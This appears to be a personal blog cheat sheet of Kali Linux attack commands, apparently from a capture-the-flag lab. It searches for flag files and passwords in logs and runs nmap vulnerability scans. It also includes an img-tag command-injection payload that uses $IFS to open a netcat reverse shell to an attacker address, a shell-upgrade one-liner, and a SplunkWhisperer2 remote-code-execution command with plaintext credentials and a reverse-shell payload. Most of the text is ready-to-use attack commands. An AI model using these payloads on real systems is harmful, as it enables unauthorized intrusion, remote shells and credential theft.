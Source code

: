 ```yaml
---
title: "CMD Line Tool: Commanda I forget"
date: 2021-01-28T14:34:30-04:00
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - tool
  - commands
  - find
  - nmap
  - improve shell
  - web shell
  - SplunkWhisperer2
  - grep
  - splunk
---
```


## Commands used on Kali Linux 2020


You can use redirect the Standard Error Output from (Generally Display/Screen) to some file and avoid seeing the error messages on the screen! redirect to a special file /dev/null :

```yaml
find / -name 'user.txt' 2>/dev/null
find / -name 'root.txt' 2>/dev/null
find / -name 'backup' 2>/dev/null

grep -H -r "password" /var/log

# Scan a file or smal directory but not the whole root

grep -Rinw /var/log/apache2/backup -e 'password'

#Always look for backups with passwords in them with find command
```

##More

Good complete scan if you want to also save to file

nmap -sC -sV -A -o scanresults.txt 10.10.10.209 

Scan for vulns with:

nmap -v --script vuln 10.10.10.209 and also nmap -sV --script=all 10.10.10.209

If a web site allows you to send messages from a page open a listener and send this script

```yaml
 Note open a nc listener first - nc -nlvp 1234
# use this when a web site allows a message to be inserted in a field

<img src=http://10.10.14.21/$(nc.traditional$IFS-e/bin/bash$IFS'10.10.14.21'$IFS'1234')>

```

Improve a shell once you get it:

python3 -c 'import pty;pty.spawn("/bin/bash")'


## https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2

root💀kali)-[/home/…/targets/doctor/SplunkWhisperer2/PySplunkWhisperer2]

```yaml
└─# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.21 --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh '10.10.14.21' '6768''

```



